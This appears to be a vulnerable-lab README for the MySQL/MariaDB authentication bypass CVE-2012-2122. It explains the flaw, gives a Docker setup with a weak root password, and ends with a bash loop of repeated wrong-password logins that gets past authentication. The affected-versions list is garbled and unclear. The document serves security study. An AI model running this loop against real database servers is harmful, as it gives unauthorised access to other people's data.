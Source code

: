 # Mysql Identity Authentication Bypass Vulnerability (CVE-2012-2122)

When connecting to MariaDB/MySQL, the entered password will be compared with the expected correct password. Due to incorrect processing, even if memcmp() returns a non-zero value, MySQL will think that the two passwords are the same. In other words, as long as you know the user name and keep trying, you can log in to the SQL database directly.

Affected version:

- MariaDB versions from 5.1.62, 5.2.12, 5.3.6, 5.5.23 are not.
- MySQL versions from 5.1.63, 5.5.24, 5.6.6 are not.

Reference link:

- http://www.freebuf.com/vuls/3815.html
- https://blog.rapid7.com/2012/06/11/cve-2012-2122-a-tragically-comedic-security-flaw-in-mysql/

## Environment setup

After testing, although this environment runs inside the container, whether the vulnerability can be reproduced still has a certain relationship with the host. The host is best to choose Ubuntu or Mac system, but I don’t know whether it will be successful. Welcome to submit more test results in Issue.

Execute the following command to start the test environment:

```
docker-compose up -d
```

After the environment is started, a Mysql service (version: 5.5.23) will be started, listening to port 3306, and you can log in directly through a normal Mysql client. The correct root password is 123456.

## Vulnerability verification

Without knowing the correct password for our environment, run the following command under bash, and log in successfully after a certain number of attempts:

```bash
for i in `seq 1 1000`; do mysql -uroot -pwrong -h your-ip -P3306; done
```

![](1.png)

For more testing and utilization methods, see the reference link.